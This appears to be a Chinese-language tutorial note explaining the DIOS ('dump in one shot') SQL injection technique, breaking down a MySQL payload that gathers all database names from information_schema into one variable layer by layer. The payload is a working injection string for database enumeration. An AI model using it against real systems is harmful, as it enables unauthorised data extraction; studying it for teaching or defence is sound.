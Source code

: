 在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

一次性返回所有数据库的名称：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
![image](./0.png)  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接这3个参数的值  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in '1,2,3'是选择某个字段，然后字段值在某个范围  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
![image](./1.png)  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
![image](./2.png)  
